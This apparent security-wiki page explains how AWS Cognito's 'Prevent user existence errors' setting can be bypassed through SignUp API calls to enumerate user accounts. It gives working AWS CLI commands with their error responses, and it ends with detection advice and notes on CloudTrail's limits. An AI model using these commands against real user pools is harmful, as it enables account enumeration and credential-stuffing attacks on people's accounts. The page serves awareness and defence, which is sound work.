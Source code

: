 ```yaml
---
author_name: Nick Frichette
title: Bypass Cognito Account Enumeration Controls
description: Leverage a flaw in Cognito's API to enumerate accounts in User Pools.
---
```


<div class="grid cards" markdown>
-   :material-book:{ .lg .middle } __Additional Resources__

    ---

    AWS Docs: [Managing user existence error responses](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-user-pool-managing-errors.html)
</div>

Amazon [Cognito](https://aws.amazon.com/cognito/) is a popular “sign-in as a service” offering from AWS. It allows developers to push the responsibility of developing authentication, sign up, and secure credential storage to AWS so they can instead focus on building their app.

By default, Cognito will set a configuration called `Prevent user existence errors`. This is designed to prevent adversaries from [enumerating accounts](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/03-Identity_Management_Testing/04-Testing_for_Account_Enumeration_and_Guessable_User_Account) and using that information for further attacks, such as [credential stuffing](https://owasp.org/www-community/attacks/Credential_stuffing).

While this is useful in theory, and a good default to have, it can be bypassed via [cognito-idp:SignUp](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/sign-up.html) calls. This bypass was originally reported via a GitHub [issue](https://github.com/aws-amplify/amplify-js/issues/6238) in July 2020 and Cognito is still vulnerable as of early 2024.

!!! Note
	Cognito can be configured to prevent disclosing user existence errors via [alias attributes](https://docs.aws.amazon.com/cognito/latest/developerguide/cognito-user-pool-managing-errors.html#cognito-user-pool-managing-errors-prevent-userexistence-errors), however it requires additional setup.  

## Example Responses

To demonstrate the responses depending on the configuration and if a user does/does not exist, here are some examples. The `admin` user exists in the user pool and is the account we will be trying to enumerate.

!!! Note
	The `client-id` value for a Cognito User Pool is not secret and is accessible from the JavaScript served by the client. 

### Prevent user existence errors on and user exists

```shell
$ aws cognito-idp initiate-auth \
--auth-flow USER_PASSWORD_AUTH \
--client-id 719… \
--auth-parameters USERNAME=admin,PASSWORD=blah

An error occurred (NotAuthorizedException) when calling the InitiateAuth operation: Incorrect username or password.
```

### Prevent user existence errors on and user does not exist

```shell
$ aws cognito-idp initiate-auth \
--auth-flow USER_PASSWORD_AUTH \
--client-id 719… \
--auth-parameters USERNAME=notreal,PASSWORD=blah

An error occurred (NotAuthorizedException) when calling the InitiateAuth operation: Incorrect username or password.
```

### Prevent user existence errors off and user exists

```shell
$ aws cognito-idp initiate-auth \
--auth-flow USER_PASSWORD_AUTH \
--client-id 719… \
--auth-parameters USERNAME=admin,PASSWORD=blah

An error occurred (NotAuthorizedException) when calling the InitiateAuth operation: Incorrect username or password.
```

### Prevent user existence errors off and user does not exist

```shell
$ aws cognito-idp initiate-auth \
--auth-flow USER_PASSWORD_AUTH \
--client-id 719… \
--auth-parameters USERNAME=notreal,PASSWORD=blah

An error occurred (UserNotFoundException) when calling the InitiateAuth operation: User does not exist.
```

As you can see, an adversary can use the `UserNotFoundException` and `NotAuthorizedException` to enumerate whether an account does or does not exist. By enabling the `Prevent user existence errors` configuration, defenders can successfully mitigate these types of attacks. However we will show how it can be bypassed.

## cognito-idp:SignUp

The `Prevent user existence errors` configuration appears to only impact the `initiate-auth` flow. It does not impact [cognito-idp:SignUp](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/sign-up.html). Because of this we can use this API call to enumerate if a user does or does not exist. Please see the following examples:

### Prevent user existence errors on and user exists

```shell
$ aws cognito-idp sign-up \
--client-id 719... \
--username admin \
--password "BlahBlah123!" \
--user-attributes Name=email,Value="blah@blah.net"

An error occurred (UsernameExistsException) when calling the SignUp operation: User already exists
```

### Prevent user existence errors on and user does not exist

```shell
$ aws cognito-idp sign-up \
--client-id 719... \
--username notreal \
--password "BlahBlah123!" \
--user-attributes Name=email,Value="blah@blah.net"
{
	"UserConfirmed": false,
	"CodeDeliveryDetails": {
    	"Destination": "b***@b***",
    	"DeliveryMedium": "EMAIL",
    	"AttributeName": "email"
	},
	"UserSub": "a20…"
}
```

## Detection Opportunities

If an adversary is using this technique at scale to identify what accounts exist in your user pool, you can attempt to detect this behavior by alerting on a sudden increase in `Unconfirmed` user accounts.

![User Pool Identities](../../images/aws/enumeration/bypass_cognito_user_enumeration_controls/user_pool_identities.png)

Depending on the configuration of your user pool, an adversary could attempt to get around this by using a real email address to confirm the user name.

### CloudTrail and CloudWatch Limitations

If you attempt to build detections around this using CloudTrail or CloudWatch, you will run into challenges. This is because a significant portion of useful telemetry (basically all of it) is omitted in these logs. For example, the `userIdentity` who made the API call is `Anonymous`

```json
{
	"eventVersion": "1.08",
	"userIdentity": {
    	"type": "Unknown",
    	"principalId": "Anonymous"
}
```

And the `username` and `userAttributes` are hidden:

```json
"requestParameters": {
    "clientId": "719...",
    "username": "HIDDEN_DUE_TO_SECURITY_REASONS",
    "password": "HIDDEN_DUE_TO_SECURITY_REASONS",
    "userAttributes": "HIDDEN_DUE_TO_SECURITY_REASONS"
}
```

For this reason, you can use CloudTrail or CloudWatch to track the number of [cognito-idp:SignUp](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/cognito-idp/sign-up.html) calls, and their associated `sourceIPAddress`, but not access their details. 
